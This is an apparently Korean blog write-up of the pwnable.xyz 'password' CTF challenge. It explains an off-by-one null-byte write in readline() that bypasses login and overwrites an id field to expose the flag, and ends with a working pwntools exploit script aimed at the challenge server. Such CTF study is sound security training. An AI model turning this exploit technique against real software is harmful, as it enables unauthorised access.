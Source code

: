 ```yaml
---
title: "[pwnable.xyz]password"
date: 2020-2-4
ctf: Pwnable.xyz
layout: post
published : false
---
```


보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

여기서 취약점 터진다. 널바이트를 보내게되면 메모리주소 -1 위치를 0으로 셋팅해줄 수 있다.

```c
__int64 __fastcall readline(void *a1, int a2)
{
  int v2; // eax

  read(0, a1, a2);
  v2 = strlen(a1);
  *(a1 + v2 - 1) = 0;
  return (v2 - 1);
}
```

우선 login() 함수에서 readline()할 때 널로 보내게 되면 bypass 할 수 있다. 그러면 creds가 1로 셋팅되고 2번 메뉴를 사용할 수 있게 된다. 거기서 memset으로 flag를 다 널바이트로 바꿔준다. 그리고 여기서도 readline()으로 flag에 입력을 받는다. 근데 flag바로 뒤에 id가 존재해서 id를 0으로 덮어줄 수 있다. id를 0으로 만들었으니까 3번 메뉴로 flag를 읽어올 수 있다. 하지만 memset 해줬으니까 다시 flag를 읽어오는 4번 메뉴를 사용해서 flag 읽어오고 id는 0이니까 3번 메뉴로 flag 출력해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30026)
win = e.symbols['win']
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def login(password):
	sla('>','1')
	sa(':',password)

def change(password):
	sla('>','2')
	sa(': \n',password)

def printf():
	sla('>','3')

def logout():
	sla('>','4')

sa(':','1234') # User ID:
login('\x00')
change('\x00')
logout()
printf()

p.interactive()
```

